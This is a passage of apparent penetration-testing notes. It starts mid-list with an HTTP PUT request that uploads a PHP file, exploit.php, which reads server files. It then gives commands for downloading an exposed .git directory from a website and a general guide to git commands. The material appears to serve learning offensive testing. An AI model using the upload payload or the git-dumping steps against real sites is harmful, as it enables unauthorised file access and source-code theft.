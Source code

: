 6. It's worth noting that some web servers may be configured to support PUT requests: 
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```   

## Git

There's [git-dumper](https://github.com/arthaud/git-dumper)

When we find a git directory on a website we can download it with:
- `wget -r http://site.com/.git` 
	- OR `git-dumper http://site.com/.git folder.git`
		- may need `pipx install git-dumper` first
	- OR simply `git clone http://site.com/.git`
- Then run `git checkout` inside the directory
- 

### command guide

`git clone`: Clone the repository to your local machine.
	- `git clone <repository_url>`

`git log`: View the commit history to understand the evolution of the repository.
	- `git log`

`git status`: Check the current status of the repository, including any modified or untracked files.
	- `git status`

`git diff`: View the differences between files, useful for understanding changes made between commits.
- `git diff`

`git branch`: List all branches in the repository.
	- `git branch -a`

`git show`: Show information about a specific commit.
	- `git show <commit_hash>` (967fa71c359fffcbeb7e2b72b27a321612e3ad11)

`git blame`: See who last modified each line of a file, helpful for understanding the history of changes.
	- `git blame <file_name>`

`git grep`: Search for specific strings or patterns within the repository.\
	- `git grep <search_term>`

`git remote`: View the remote repositories associated with the local repository.
	-`git remote -v`

`git reflog`: Show a log of changes to the repository's HEAD.
	- `git reflog`
